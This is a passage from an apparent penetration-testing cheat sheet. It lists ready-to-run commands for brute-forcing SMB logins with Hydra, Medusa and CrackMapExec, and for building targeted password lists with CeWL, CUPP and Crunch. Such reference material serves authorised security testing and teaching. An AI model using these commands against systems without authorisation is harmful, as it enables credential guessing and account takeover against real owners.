 #### SMB Password Attacks
```bash
# Using Hydra
hydra -L users.txt -P passwords.txt smb://<IP>

# Using Medusa
medusa -U users.txt -P passwords.txt -h <IP> -M smbnt

# Using CrackMapExec
crackmapexec smb <IP> -u usernames.txt -p passwords.txt
```

## Building Wordlists

### CeWL (Custom Word List generator)
```bash
# Basic usage - create wordlist from website
cewl -m 5 -d 2 https://example.com -w wordlist.txt

# Parameters:
# -m 5: minimum word length of 5
# -d 2: crawl 2 levels deep
# -w: output file

# Extract email addresses
cewl -e https://example.com
```

### CUPP (Common User Passwords Profiler)
```bash
# Interactive mode
./cupp.py -i

# Follow prompts to create targeted password list

# Use built-in dictionaries
./cupp.py -l

# Generate from a name with specified configurations
./cupp.py -n John
```

### Crunch (Pattern-based Generator)
```bash
# Generate passwords of length 8
crunch 8 8 -t admin%%%

# Generate passwords with specific pattern and character set
crunch 9 9 -t admin@%%% -l aaaaa@aaa

# Generate permutations of words
crunch 30 30 -p word1 word2 word3 word4

# Use character sets
crunch 6 8 -f /usr/share/crunch/charset.lst mixalpha
```
